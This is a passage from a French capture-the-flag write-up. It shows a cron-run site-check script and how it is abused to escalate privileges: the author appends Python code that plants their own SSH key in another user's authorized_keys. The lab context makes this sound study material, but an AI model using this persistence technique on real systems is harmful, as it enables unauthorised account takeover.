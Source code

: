 ```python
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```

De toute évidence le script est lancé régulièrement :  

```bash
daniel@napping:~$ tail -1 /home/adrian/site_status.txt
Site is Up: 16/11/2021 22:36:01
daniel@napping:~$ date
Tue Nov 16 22:36:50 UTC 2021
```

On le retrouve dans la crontab de l'utilisateur (*crontab -l*):  

```plain
*/2 * * * * /usr/bin/python3 /home/adrian/query.py
```

La version de Python ne se devine pas à la lecture du code mais Python2 n'est pas présent sur la machine, on va donc éditer le fichier et ajouter du code en Python 3.  

Ceux qui n'ont pas l'habitude de programmer en Python peuvent utiliser *os.system* pour exécuter un script externe qui se chargera de leur ouvrir les portes.  

Etant donné que le script *query.py* est exécuté avec l'utilisateur *adrian* nos modifications le seront aussi. On peut profiter de ces droits à l'exécution pour rajouter notre clé SSH aux clés autorisées pour ce compte.  

On aura alors un script comme celui-ci :  

```python

import os
import stat

os.mkdir("/home/adrian/.ssh")
with open("/home/adrian/.ssh/authorized_keys", "w") as fd:
  fd.write("ssh-rsa --snip--ma-cle-publique-ssh--snip--")

os.chmod("/home/adrian/.ssh/authorized_keys", stat.S_IREAD|stat.S_IWRITE)

```
